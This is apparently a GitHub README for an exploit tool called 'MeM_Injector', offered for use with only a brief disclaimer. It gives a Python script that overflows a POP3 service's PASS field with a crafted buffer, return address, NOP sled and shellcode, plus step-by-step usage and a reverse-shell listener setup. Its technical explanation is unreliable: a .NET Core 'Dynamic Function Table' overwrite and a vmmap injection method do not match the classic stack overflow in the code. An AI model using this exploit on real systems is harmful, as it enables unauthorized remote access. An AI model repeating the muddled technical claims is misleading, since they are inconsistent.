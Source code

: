# MeM_Injector - let me inject your mem.

# Memory Injection Buffer Overflow 

MeM_Injector allows you to leverages a crafted buffer with a shellcode payload to gain unauthorized access to the target system.

## Disclaimer

This is intended for authorized security testing and educational purposes only. Always obtain proper authorization before testing or using this exploit in any environment. The creators of this repository are not responsible for any misuse or damage caused by this exploit.

##  Details

MeM_Injector targets a buffer overflow vulnerability in a service running on a remote host. MeM_Injector allows you to create a payload that sends a crafted buffer to the target service, triggering and executing the shellcode. 

The technique involves identifying a memory region with rwx permissions, where the shellcode can be saved and executed. 

To achieve this, the ```vmmap``` command is used to find a suitable memory region, and then the shellcode is injected into the target process byte by byte.

After injecting the shellcode, the exploit overwrites a function pointer within the Dynamic Function Table (DFT) to trigger the execution of the shellcode. The DFT is used by the .NET Core runtime to provide helper functions for JIT compilation. By overwriting a pointer within the DFT, the control flow is redirected to the injected shellcode, resulting in its execution.



```python
import socket

# Set target information
target_ip = '10.11.25.153'
target_port = 110

# Set shellcode (use the provided shellcode or generate a new one with msfvenom)
shellcode = (
    "\xb8\x30\x3f\x27..." # Replace with the full shellcode
)

# Calculate buffer size and return address based on the specific vulnerability for your target.
buffer_size = 2606
return_address = '\x8f\x35\x4a\x5f'

# Add NOP sled (optional, but can help improve reliability)
nopsled = "\x90" * 8

# Create  final buffer with the required pattern, return address, NOP sled, and shellcode
buffer = 'A' * buffer_size + return_address + nopsled + shellcode

# Set socket to connect to the target
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))

# Send exploit buffer to the target
s.send('USER username' + '\r\n')
s.send('PASS ' + buffer + '\r\n')

# Close the connection
s.close()
```

Replace `username` with a valid username for the target service (if required). This PoC exploit sends the crafted buffer to the target service, triggering the buffer overflow vulnerability and executing the shellcode.

Remember to set up a listener on your local machine (`10.11.0.41` in this case) to receive the reverse shell connection. You can use tools like `nc` or `metasploit` to create the listener.


## Usage

1. Replace the `shellcode` variable with the full shellcode for the target system.
2. Update the `target_ip` and `target_port` variables with the target system's IP address and port number.
3. Replace the `username` string with a valid username for the target service (if required).
4. Run the Python script to execute the exploit.
5. Monitor your listener for a reverse shell connection from the target system.
